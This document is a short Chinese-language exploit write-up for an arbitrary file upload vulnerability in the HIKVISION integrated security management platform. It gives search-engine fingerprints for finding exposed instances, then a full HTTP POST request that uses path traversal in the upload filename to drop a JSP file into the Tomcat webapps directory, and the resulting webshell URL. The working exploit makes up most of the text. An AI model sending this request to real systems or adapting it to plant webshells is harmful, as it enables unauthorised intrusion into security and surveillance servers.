

# HiKVISION 综合安防管理平台 任意文件上传漏洞

## 资产收集

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/Fiy0.jsp"
Content-Type: application/octet-stream

<%out.print("test3");%>

--502f67681799b07e4de6b503655f5cae--
```

  

webshell连接地址：http://x.x.x.x/clusterMgr/Fiy0.jsp;js